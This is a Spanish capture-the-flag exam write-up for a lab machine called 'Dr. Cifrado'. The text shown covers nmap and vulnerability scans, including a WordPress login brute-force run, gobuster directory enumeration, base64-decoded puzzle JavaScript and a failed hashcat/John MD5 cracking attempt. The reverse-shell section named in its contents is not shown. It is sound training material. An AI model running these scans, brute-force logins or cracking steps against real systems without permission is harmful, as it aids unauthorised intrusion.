*16 / Noviembre / 2025 - MF0489*
# Examen práctico 4 - Dr. Cifrado
---

<h4 style="text-align: justify">
Este exámen práctico se centra en el análisis de la máquina Dr. Cifrado, con el objetivo de localizar puntos de entrada, enumerar servicios y reunir las piezas necesarias para descifrar el mensaje oculto del desafío.</h4>

## Contenido

- [0. Introducción](#introducción---herramientas-y-metodología)
- [1. Reconocimiento](#1-reconocimiento)
- [2. Interacción Web](#2-interacción-web)
- [3. Explotación](#3-explotación---reverse-shell)
- [4. Evidencias](#4-evidencias---recolección-de-flags)
- [5. Bonus](#5-bonus) 

---

## Introducción - Herramientas y metodología

De la misma manera que en los anteriores writeups, es importante actualizar las herramientas necesarias y definir de qué manera se va a trabajar (metodología).

Se hará uso de las siguientes herramientas: `nmap`, `GoBuster`, `netcat (nc)`, `John the ripper`, `Hashcat` y `CyberChef`.

**Metodología:** Descubrimiento → enumeración activa → análisis web → exploración y análisis del código fuente → resolución de las tareas por etapas → recolección de evidencias.

---

## 1. Reconocimiento

#### Descubrimiento & Enumeración de puertos.
Se realiza un escaneo completo y enumeración de versiones básico mediante el uso de nmap:

```bash
sudo nmap -vv -sT -sV 10.10.115.32 -p-
```

```bash
┌──(kali㉿0xSohaib)-[~]
└─$ sudo nmap -vv -sT -sV 10.10.115.32 -p-                             
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-17 02:24 CET
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 02:24
Scanning 10.10.115.32 [4 ports]
Completed Ping Scan at 02:24, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 02:24
Scanning 10.10.115.32 [65535 ports]
Discovered open port 22/tcp on 10.10.115.32
Discovered open port 4444/tcp on 10.10.115.32
Discovered open port 5353/tcp on 10.10.115.32
Completed Connect Scan at 02:24, 28.77s elapsed (65535 total ports)
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4444/tcp open  http    syn-ack lighttpd 1.4.33
5353/tcp open  http    syn-ack lighttpd 1.4.33
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 **Task 1:** 
>**¿Qué valor obtenemos de la suma de los puertos?** 
22 + 4444 + 5353 = **9819**

> **HTTP  Server Header**
lighttpd/1.4.33


Y a continuacón, se realiza un escaneo mas extenso en busca de posibles vulnerabilidades:

```bash
┌──(kali㉿0xSohaib)-[~]
└─$ sudo nmap -sS -sU -sV -p 4444,5353 --script="default,vuln,exploit,auth,brute" -O --fuzzy 10.10.115.32

[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-17 01:09 CET
Stats: 0:07:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.36% done; ETC: 01:17 (0:00:03 remaining)
Nmap scan report for 10.10.115.32
Host is up (0.042s latency).

PORT     STATE  SERVICE  VERSION
4444/tcp open   http     lighttpd 1.4.33
|_http-server-header: lighttpd/1.4.33
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-generator: WordPress 5.1.19
| http-brute:   
|_  Path "/" does not require authentication
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: \xE2\xA0\x99\xE2\xA0\x97\xE2\xA0\xA8\xE2\xA0\x89\xE2\xA0\x8A\xE2\xA0\x8B\xE2\xA0\x97\xE2\xA0\x81\xE2\xA0\x99\xE2\xA0\x95
| vulners: 
|   cpe:/a:lighttpd:lighttpd:1.4.33: 
|       CVE-2019-11072  9.8     https://vulners.com/cve/CVE-2019-11072
|       CVE-2014-2323   9.8     https://vulners.com/cve/CVE-2014-2323
|       SSV:61980       7.5     https://vulners.com/seebug/SSV:61980    *EXPLOIT*
|       CVE-2018-19052  7.5     https://vulners.com/cve/CVE-2018-19052
|       CVE-2015-3200   7.5     https://vulners.com/cve/CVE-2015-3200
|       CVE-2013-4508   7.5     https://vulners.com/cve/CVE-2013-4508
|       SSV:61850       5.0     https://vulners.com/seebug/SSV:61850    *EXPLOIT*
|_      CVE-2014-2324   5.0     https://vulners.com/cve/CVE-2014-2324
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /info.php: Possible information file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.1.19
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|_  /readme.html: Interesting, a readme.
5353/tcp open   http     lighttpd 1.4.33
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-login.php: Wordpress login page.
|_  /wp-admin/upgrade.php: Wordpress login page.
|_http-title: 403 - Forbidden
| vulners: 
|   cpe:/a:lighttpd:lighttpd:1.4.33: 
|       CVE-2019-11072  9.8     https://vulners.com/cve/CVE-2019-11072
|       CVE-2014-2323   9.8     https://vulners.com/cve/CVE-2014-2323
|       SSV:61980       7.5     https://vulners.com/seebug/SSV:61980    *EXPLOIT*
|       CVE-2018-19052  7.5     https://vulners.com/cve/CVE-2018-19052
|       CVE-2015-3200   7.5     https://vulners.com/cve/CVE-2015-3200
|       CVE-2013-4508   7.5     https://vulners.com/cve/CVE-2013-4508
|       SSV:61850       5.0     https://vulners.com/seebug/SSV:61850    *EXPLOIT*
|_      CVE-2014-2324   5.0     https://vulners.com/cve/CVE-2014-2324
|_http-server-header: lighttpd/1.4.33
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-brute:   
|_  Path "/" does not require authentication
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-wordpress-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 9870 guesses in 600 seconds, average tps: 15.3

4444/udp closed krb524
5353/udp closed zeroconf

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 621.27 seconds
```

#### Enumeración de directorios.
Después de los escaneos con `nmap`, se procede a realizar un escaneo de directorios con `GoBuster` dado que en los resultados anteriores podemos observar que el servidor tiene 2 instancias de wordpress corriendo los puertos *4444* y *5353*. 


```bash
┌─(kali㉿0xSohaib)-[~]
└─$ gobuster dir -u http://10.10.115.32:4444 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.32:4444
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/]
/info.php             (Status: 200) [Size: 73856]
/wp-admin             (Status: 403) [Size: 345]
/wp-content           (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-content/]
/wp-includes          (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```
```bash

┌──(kali㉿0xSohaib)-[~]
└─$ gobuster dir -u http://10.10.115.32:4444 -w /usr/share/wordlists/dirb/big.txt   
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.32:4444
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-admin             (Status: 403) [Size: 345]
/wp-content           (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-content/]
/wp-includes          (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-includes/]
/~sys~                (Status: 403) [Size: 345]
Progress: 20469 / 20469 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo que con las listas comunes no muestra información relevante, se procede a probar con lista de wordpress personalizada. Debido al volumen de los resultados, se mostrará una parte del escaneo. Para revisar el escaneo completo se puede encontrar [aquí](./gobuster_wordpress.txt).

```bash
┌──(kali㉿0xSohaib)-[~]
└─$ gobuster dir -u http://10.10.115.32:4444 -w '/home/kali/Desktop/wp.txt'                                 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.32:4444
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Desktop/wp.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-admin             (Status: 403) [Size: 345]
/wp-admin/css         (Status: 403) [Size: 345]
[Resultados omitidos ...]
/wp-includes/theme-compat (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-includes/theme-compat/]
/wp-includes/widgets  (Status: 301) [Size: 0] [--> http://10.10.115.32:4444/wp-includes/widgets/]
Progress: 24700 / 24700 (100.00%)
===============================================================
Finished
===============================================================
```

## 2. Interacción web
#### Análisis web, exploración y análisis del código fuente.
 **Task 1:** 
>**HTTP Generator** 
WordPress 5.1.19



Procedemos a explorar la primera instancia de wordpress disponible en el puerto *4444*. Haciendo click sobre el texto de error (trigger) se activan 4 botones invisibles. Realizando una lectura rápida del código fuente se observa que la funciones se ejecutan de parte del cliente y no del servidor.



Explorando un poco mas, se puede obsevar el esquema de la web de wordpress. Dentro de la carpeta de Plugins se pueden ver diferentes plugins personalizados. Nos vamos a centrar en `intro-encoded.php`.

Se puede observar una función cuyo contenido se encuentra codificado mediante `base64` con la llave `k`.



Pasando el contenido por `Cyberchef`, podemos extraer el código fuente limpio:



De todo el código nos vamos a fijar en el apartado que escucha los eventos de click de los botones. Se puede ver que el contenido también está codificado en `base64`.

```javascript
    boton.addEventListener("click", function() {
        window.location.href = atob('aW5kZXgucGhwL3dlbGNvbWU=')
    });
	
    boton1.addEventListener("click", function() {
        window.alert(atob('U2kgbWlzIHNlY3JldG9zIHF1aWVyZXMgZGVzdmVsYXIsIGVzdGUgYm90824gbm8gZGViaXN0ZSBwdWxzYXI='))
    });
    boton2.addEventListener("click", function() {
        window.alert(atob('U2kgbWlzIHNlY3JldG9zIHF1aWVyZXMgZGVzdmVsYXIsIGVzdGUgYm90824gbm8gZGViaXN0ZSBwdWxzYXI='))
    });
    boton3.addEventListener("click", function() {
        window.alert(atob('U2kgbWlzIHNlY3JldG9zIHF1aWVyZXMgZGVzdmVsYXIsIGVzdGUgYm90824gbm8gZGViaXN0ZSBwdWxzYXI='))
    });
```
Decodificando `aW5kZXgucGhwL3dlbGNvbWU=` obtenemos el siguiente directorio dentro del recorrido del ejercicio: index.php/**welcome**.



Una vez accedemos al siguiente directorio, nos encontramos con un mensaje de bienvenida. Haciendo click sobre el mensaje provoca que se active el sistema IPS *(Sistema de Prevención de Intrusiones)*. A los segundos, nos muestra la primera flag de la Tarea 2.


 **Task 2:** 
>**¿Cómo nos dice que llamemos al servidor?** 
drcifrado[.]bs

Inspeccionando la carpeta de plugins, se puede ver un archivo con el mismo nombre que el directorio de welcome: `welcome-encoded.php`. 

Al igual que la anterior página, esta también se encuentra codificada mediante `base64` con la llave `K`.



Analizando el código, se pueden observar varias funciones con las pistas para resolver esta etapa de la tarea y poder avanzar a /index.php/**acertijo**.

```Javascript

function key() {
	const serverIP = window.location.hostname;
    const enlace = document.createElement('a');
    enlace.href = 'http://' + serverIP + ':4444/svyrf/940f.txt';
    enlace.download = 'keys.txt';
    document.body.appendChild(enlace);
    enlace.click();
    document.body.removeChild(enlace);
}

function alerta() {
    const parrafo = document.getElementById('ultimo');
    if (parrafo) {
        parrafo.style.display = 'block';
        parrafo.scrollIntoView({ behavior: 'smooth' });
        parrafo.style.transition = 'all 1s ease';
    }
}

function open_d() {
	window.location.href = '/index.php/acertijo';
}
```

 **Task 2:** 
>**¿Cómo se llama el diccionario que nos propociona?** 
keys.txt [enlace: hxxp://drcifrado[.]bs/svyrf/940f.txt]

>**¿Cuál es la respuesta al primer acertijo?** 
DR.CIFRADO

Una vez avanzamos al apartado del acertijo, nos encontramos con la siguiente alerta:



Dicha alerta contiene un mensaje codificado en hexadecimal, base64 y finalmente rotación 13:



 **Task 3:** 
>**¿Cómo está codificado el mensaje que nos ha dado el acertijo?** 
Hexadecimal

>**¿Cuál es la segunda transformación del código?** 
Base64

>**¿Cuál es la segunda transformación del código?** 
hxxp://drcifrado[.]bs/svyrf/aGFZaF9s.txt

El contenido de **aGFZaF9s.txt** es el siguiente hash en formato MD5: `3b06538bca136581bd56a68b36b01378`. Tanto mediante el uso de `Hashcat` como `John the Ripper` no se consigue romper el hash.

```bash
┌──(kali㉿0xSohaib)-[~]
└─$ hashcat -m 0 -a 0 3b06538bca136581bd56a68b36b01378 /home/kali/Desktop/passkeys/940f.txt                                            

hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================

Dictionary cache built:
* Filename..: /home/kali/Desktop/passkeys/940f.txt
* Passwords.: 18067
* Bytes.....: 154085
* Keyspace..: 18067
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: 3b06538bca136581bd56a68b36b01378
Time.Started.....: Mon Nov 17 04:08:41 2025 (0 secs)
Time.Estimated...: Mon Nov 17 04:08:41 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/home/kali/Desktop/passkeys/940f.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:   917.2 kH/s (0.23ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 18067/18067 (100.00%)
Rejected.........: 0/18067 (0.00%)
Restore.Point....: 18067/18067 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: scout6 -> d+
Hardware.Mon.#01.: Util: 31%

Started: Mon Nov 17 04:08:39 2025
Stopped: Mon Nov 17 04:08:43 2025
```

```bash
┌──(kali㉿0xSohaib)-[~/Desktop]
└─$ john --format=raw-md5 --wordlist=/home/kali/Desktop/passkeys/940f.txt hash.md5 --fork=4

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Node numbers 1-4 of 4 (fork)
3 0g 0:00:00:00 DONE (2025-11-17 04:18) 0g/s 451700p/s 451700c/s 451700C/s pekmabz..d+
Press 'q' or Ctrl-C to abort, almost any other key for status
1 0g 0:00:00:00 DONE (2025-11-17 04:18) 0g/s 451700p/s 451700c/s 451700C/s pelham12..!!!semen!!!
Waiting for 3 children to terminate
4 0g 0:00:00:00 DONE (2025-11-17 04:18) 0g/s 451300p/s 451300c/s 451300C/s pecs..!12345
2 0g 0:00:00:00 DONE (2025-11-17 04:18) 0g/s 451700p/s 451700c/s 451700C/s pelato..!!!!!
Session completed. 
```

Viendo que no se lograba romper el hash, procedí a analizar el archivo `cipherlogic-encoded.js`.



Igual que en los archivos anteriores, el documento consta del contenido codificado en `base64` y bajo key `W`.



En las siguientes partes del código podemos extraer mas pistas para seguir avanzando en en reto:

```javascript

var asdf = 0;
var opacidad = 1;
var colorA = "WzIsMSw1LDcsMSw0LDgsMywzLDJd";
var klop = JSON.parse(atob(colorA));
var colorR = 48;
var colorG = 48;
var colorB = 48;

var botonesContainer = document.getElementById("botones-container");

function verificarOrden(paso) {

  if (paso === klop[asdf]) {
    asdf++;
    if (asdf === klop.length) {
		cleanConsole();
		//var execA = atob(clearO);
       	//alert(butonF + clearO);
		var boton = document.createElement("button");
		boton.innerHTML = atob("QVJFIFlPVSBSRUFEWT8=");
		boton.id = "miBoton";
		boton.className = "botoncito";
		var enlace = document.createElement("a");
		enlace.href = atob("aW5kZXgucGhwL3RyaXR1cmFkb3Jh");
		enlace.appendChild(boton);
		document.body.appendChild(enlace);
    }
    cambiarFondo();
  	} else {
    reiniciarBotones();
  	}
}
```
Decodificando `WzIsMSw1LDcsMSw0LDgsMywzLDJd` se obtiene el orden de la secuencia que se debe introducir para poder avanzar: **2,1,5,7,1,8,3,3,2**. Una vez introducida, nos permite movernos hacia index.php/**trituradora**.



Al usar la trituradora con la flag anterior: `U2FsdGVkX19PZWFwtJY7AjNnAoGv1uRHn7dcnbRNJEQ=`, nos revela la flag con el nombre de usuario de wordpres: `admin`.

